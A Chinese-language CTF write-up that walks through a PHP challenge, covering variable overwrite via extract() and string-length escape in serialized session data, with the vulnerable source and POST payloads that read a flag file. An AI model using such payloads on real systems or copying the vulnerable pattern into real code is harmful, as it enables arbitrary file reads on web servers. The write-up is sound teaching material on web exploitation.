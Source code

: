 # 知识点：

# 1.信息收集

# 2.extract()函数导致的变量覆盖 

### cgctf有类似的题目：

### https://blog.csdn.net/zz_Caleb/article/details/88671071

# 3.关键字过滤导致的任意序列化内容控制

类似[0CTF 2016]piapiapia



# 1.直接给出源码：

```javascript
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



# 2.extract()函数存在变量覆盖，此处可以直接post _SESSION值，覆盖前面的session



# 3.观察源码，发现phpinfo有提示，查看phpinfo，发现flag所在位置

![](images/8544AC5ECA1A48D58FD968ABD5D05301clipboard.png)

现在所要做的就是读取d0g3_f1ag.php的内容



# 4.发现存在文件读取

```javascript
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



但是需要unserialize之后，再base64解码才能读取到flag



# 5. 发现需要绕过的点：

当get img_path时，get的值会被sha加密，从而无法被解码。但是当不get image_path则img内容是固定的，不能读取flag

```javascript
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));
```



# 6. 发现filter()函数，在serlialize之后，filter函数会过滤其中的非法字符

```javascript
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```



此时联想到[0CTF 2016]piapiapia的通过过滤非法字符来构造任意序列化数据



# 7.构造payload

```javascript
get: f=show_image
post: _SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}
```



# 8. payload解释：

## 8.1 f=show_image 让代码执行到反序列化

```javascript
else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```



## 8.2 _SESSION[user]=flagflagflagflagflagflag 

6个flag长度为24刚好等于后面function序列化的长度：

```javascript
";s:8:"function";s:59:"a    //24位，此时变成了user的内容
```



![](images/9C70C1998D1C44968F24C900AB089EF3clipboard.png)



## 8.3 a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";

ZDBnM19mMWFnLnBocA==为d0g3_f1ag.php的base64编码



## 8.4 s:2:"dd";s:1:"a"; 这是因为一开始就有三个数据，通过过滤之后只有两个数据，此时要添加一个保持完整



# 9. 发现flag，在d0g3_fllllllag，重新构造读取

![](images/4F227C76D25E4257A4B1492586C20229clipboard.png)

post:

```javascript
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"dd";s:1:"a";}
```

